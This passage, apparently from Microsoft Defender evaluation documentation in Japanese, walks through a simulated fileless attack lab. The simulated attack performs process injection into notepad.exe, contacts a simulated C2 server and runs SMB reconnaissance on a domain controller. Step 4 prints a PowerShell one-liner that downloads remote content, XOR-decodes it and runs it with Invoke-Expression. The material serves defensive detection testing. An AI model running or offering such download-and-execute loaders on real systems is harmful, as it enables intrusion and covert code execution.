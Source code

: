 高度な手法を利用して検出から隠れる高度な攻撃をシミュレートします。 この攻撃により、ドメイン コントローラーで開かれたサーバー メッセージ ブロック (SMB) セッションが列挙され、ユーザーのデバイスの最近の IP アドレスが取得されます。 攻撃のこのカテゴリには、通常、被害者のデバイスにドロップされたファイルは含まれず、メモリ内でのみ発生します。 既存のシステムツールと管理ツールを使用して"陸から離れた場所に住む" と、コードをシステム プロセスに挿入して実行を非表示にします。 このような動作により、検出を回避し、デバイスに永続化できます。

このシミュレーションでは、サンプル シナリオは PowerShell スクリプトから始まります。 実際の世界では、ユーザーがスクリプトの実行をだまされたり、以前に感染したデバイスから別のコンピューターへのリモート接続からスクリプトが実行されたりする可能性があります。これは、攻撃者がネットワーク内を横方向に移動しようとしていることを示しています。 管理者はさまざまな管理アクティビティを実行するためにリモートでスクリプトを実行することも多いため、これらのスクリプトの検出は困難な場合があります。

:::image type="content" source="../../media/mtp/mtpdiydiagram.png" alt-text="プロセスインジェクションと SMB 偵察攻撃を伴う Fileless PowerShell 攻撃" lightbox="../../media/mtp/mtpdiydiagram.png":::

シミュレーション中、攻撃はシェルコードを一見無実のプロセスに挿入します。 このシナリオでは、notepad.exeを使用する必要があります。 シミュレーションにこのプロセスを選択しましたが、攻撃者はsvchost.exeなどの長時間実行されるシステム プロセスをターゲットにする可能性が高くなります。 その後、シェルコードは攻撃者のコマンドアンドコントロール (C2) サーバーに連絡し、続行方法の指示を受け取ります。 スクリプトは、ドメイン コントローラー (DC) に対する偵察クエリの実行を試みます。 偵察により、攻撃者は最近のユーザー ログイン情報に関する情報を取得できます。 攻撃者がこの情報を取得したら、ネットワーク内を横方向に移動して、特定の機密性の高いアカウントにアクセスできます。

> [!IMPORTANT]
> 最適な結果を得るには、攻撃シミュレーションの指示にできるだけ近い手順に従ってください。

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>分離された AD DS ドメイン コントローラーの攻撃シミュレーションを実行する

攻撃シナリオ シミュレーションを実行するには:

1. パイロット環境に分離された AD DS ドメイン コントローラーと Windows デバイスが含まれていることを確認します。

2. テスト ユーザー アカウントを使用してテスト デバイスにサインインします。

3. テスト デバイスでWindows PowerShell ウィンドウを開きます。

4. 次のシミュレーション スクリプトをコピーします。

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > この記事を Web ブラウザーで開くと、特定の文字を失ったり、改行を追加したりすることなく、フル テキストをコピーする際に問題が発生する可能性があります。 このような場合は、このドキュメントをダウンロードし、Adobe Reader で開きます。

5. コピーしたスクリプトを PowerShell ウィンドウに貼り付けて実行します。

> [!NOTE]
> リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は、 **CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しない可能性があるため、RDP クライアントで [クリップボードテキストの入力] コマンドを使用します。 最近のバージョンの PowerShell では、そのメソッドが受け入れられません。最初にメモリ内のメモ帳にコピーし、仮想マシンでコピーしてから PowerShell に貼り付ける必要がある場合があります。

数秒後、メモ帳アプリが開きます。 シミュレートされた攻撃コードがメモ帳に挿入されます。 自動的に生成されたメモ帳インスタンスを開いたままにして、完全なシナリオを体験します。

シミュレートされた攻撃コードは、外部 IP アドレスとの通信 (C2 サーバーのシミュレート) を試み、SMB を介してドメイン コントローラーに対する偵察を試みます。
